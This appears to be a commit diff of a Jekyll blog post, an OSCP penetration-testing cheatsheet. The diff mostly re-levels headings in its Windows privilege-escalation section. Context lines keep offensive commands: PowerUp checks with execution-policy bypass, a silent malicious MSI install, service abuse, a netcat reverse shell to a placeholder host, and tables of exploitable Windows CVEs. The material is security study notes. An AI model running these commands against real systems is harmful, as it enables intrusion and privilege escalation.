

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-09-18-OSCP-personal-cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 3314 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-09-18-OSCP-personal-cheatsheet.md
+++ b/_posts/2020-09-18-OSCP-personal-cheatsheet.md
@@ -205,33 +205,33 @@
       - [Search for CVE](#search-for-cve)
       - [Post exploitation](#post-exploitation)
     + [JuicyPotato (SeImpersonate or SeAssignPrimaryToken)](#juicypotato-seimpersonate-or-seassignprimarytoken)
-  * [Methodology to follow](#methodology-to-follow-1)
-  * [Autorun](#autorun)
-    + [Detection](#detection)
-    + [Exploitation](#exploitation)
-  * [AlwaysInstallElevated](#alwaysinstallelevated)
-    + [Detection](#detection-1)
-    + [Exploitation](#exploitation-1)
-  * [Executable Files](#executable-files)
-    + [Detection](#detection-2)
-    + [Exploitation](#exploitation-2)
-  * [Startup applications](#startup-applications)
-    + [Detection](#detection-3)
-    + [Exploitation](#exploitation-3)
-  * [Weak service permission](#weak-service-permission)
-    + [Detection](#detection-4)
-    + [Exploitation](#exploitation-4)
-  * [Unquoted service paths](#unquoted-service-paths)
-    + [Detection](#detection-5)
-    + [Exploitation](#exploitation-5)
-  * [Hot potato](#hot-potato)
-    + [Exploitation](#exploitation-6)
-  * [CVE](#cve)
-    + [Windows XP](#windows-xp)
-    + [Windows 7](#windows-7)
-    + [Windows 8](#windows-8)
-    + [Windows 10](#windows-10)
-    + [Windows Server 2003](#windows-server-2003)
+    * [Methodology to follow](#methodology-to-follow-1)
+    * [Autorun](#autorun)
+      + [Detection](#detection)
+      + [Exploitation](#exploitation)
+    * [AlwaysInstallElevated](#alwaysinstallelevated)
+      + [Detection](#detection-1)
+      + [Exploitation](#exploitation-1)
+    * [Executable Files](#executable-files)
+      + [Detection](#detection-2)
+      + [Exploitation](#exploitation-2)
+    * [Startup applications](#startup-applications)
+      + [Detection](#detection-3)
+      + [Exploitation](#exploitation-3)
+    * [Weak service permission](#weak-service-permission)
+      + [Detection](#detection-4)
+      + [Exploitation](#exploitation-4)
+    * [Unquoted service paths](#unquoted-service-paths)
+      + [Detection](#detection-5)
+      + [Exploitation](#exploitation-5)
+    * [Hot potato](#hot-potato)
+      + [Exploitation](#exploitation-6)
+    * [CVE](#cve)
+      + [Windows XP](#windows-xp)
+      + [Windows 7](#windows-7)
+      + [Windows 8](#windows-8)
+      + [Windows 10](#windows-10)
+      + [Windows Server 2003](#windows-server-2003)
 
 - [PROOFS](#proofs)
   * [Linux](#linux-5)
@@ -1700,7 +1700,7 @@
 https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
 ```
 
-### Methodology to follow
+#### Methodology to follow
 
 ```
 https://guif.re/windowseop
@@ -1710,9 +1710,9 @@
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
 ```
 
-### Autorun
-
-#### Detection
+#### Autorun
+
+##### Detection
 
 ```
 powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
@@ -1735,7 +1735,7 @@
     FilePerms: Everyone [AllAccess]
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1750,9 +1750,9 @@
 To execute it with elevated privileges we need to wait for someone in the Admin group to login.
 ```
 
-### AlwaysInstallElevated
-
-#### Detection
+#### AlwaysInstallElevated
+
+##### Detection
 
 ```
 powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
@@ -1782,7 +1782,7 @@
   AlwaysInstallElevated set to 1 in HKCU!
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1795,9 +1795,9 @@
 msiexec /quiet /qn /i C:\Temp\program.msi
 ```
 
-### Executable Files
-
-#### Detection
+#### Executable Files
+
+##### Detection
 
 ```
 powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
@@ -1825,7 +1825,7 @@
 	File Permissions: Everyone [AllAccess]
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1839,9 +1839,9 @@
 sc start filepermsvc
 ```
 
-### Startup applications
-
-#### Detection
+#### Startup applications
+
+##### Detection
 
 ```
 icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
@@ -1857,7 +1857,7 @@
 If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1872,9 +1872,9 @@
 To execute it with elevated privileges we need to wait for someone in the Admin group to login.
 ```
 
-### Weak service permission
-
-#### Detection
+#### Weak service permission
+
+##### Detection
 
 ```
 # Find all services authenticated users have modify access onto
@@ -1920,7 +1920,7 @@
 	daclsvc: WriteData/CreateFiles
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1935,9 +1935,9 @@
 net start <SERVICENAME>
 ```
 
-### Unquoted service paths
-
-#### Detection
+#### Unquoted service paths
+
+##### Detection
 
 ```
 powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
@@ -1969,7 +1969,7 @@
 unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
 ```
 
-#### Exploitation
+##### Exploitation
 
 ```
 # Attacker
@@ -1983,9 +1983,9 @@
 sc start unquotedsvc
 ```
 
-### Hot potato
-
-#### Exploitation
+#### Hot potato
+
+##### Exploitation
 
 ```
 # Attacker
@@ -1998,7 +1998,7 @@
 powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
 ```
 
-### CVE
+#### CVE
 
 ```
 # Already compiled exploit
@@ -2006,7 +2006,7 @@
 https://github.com/abatchy17/WindowsExploits
 ```
 
-#### Windows XP
+##### Windows XP
 
 |      CVE      | Description                                                  |
 | :-----------: | :----------------------------------------------------------- |
@@ -2025,7 +2025,7 @@
 | CVE-2011-5046 | EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution |
 | CVE-2012-4349 | Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root |
 
-#### Windows 7
+##### Windows 7
 
 |      CVE      | Description                                                  |
 | :-----------: | :----------------------------------------------------------- |
@@ -2038,7 +2038,7 @@
 | CVE-2015-0016 | ms15_004_tswbproxy -  abuses a process creation policy in Internet Explorer's sandbox - code execution |
 | CVE-2018-8494 | remote code execution vulnerability exists when the Microsoft XML Core Services MSXML parser processes user input |
 
-#### Windows 8
+##### Windows 8
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
@@ -2052,7 +2052,7 @@
 | CVE-2014-6352 | ms14_064_packager_python - exploits Windows Object Linking and Embedding (OLE) - arbitrary code execution |
 | CVE-2015-0002 | ntapphelpcachecontrol - NtApphelpCacheControl Improper Authorization Check - privilege escalation |
 
-#### Windows 10
+##### Windows 10
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
@@ -2065,7 +2065,7 @@
 | CVE-2015-2431 | MS15-080 - Vulnerabilities in Microsoft Graphics Component - Could Allow Remote Code Execution |
 | CVE-2015-2441 | MS15-091 - Vulnerabilities exist when Microsoft Edge improperly accesses objects in memory - allows remote code execution |
 
-#### Windows Server 2003
+##### Windows Server 2003
 
 |      CVE      | Description                                                  |
 | :-----------: | ------------------------------------------------------------ |
````
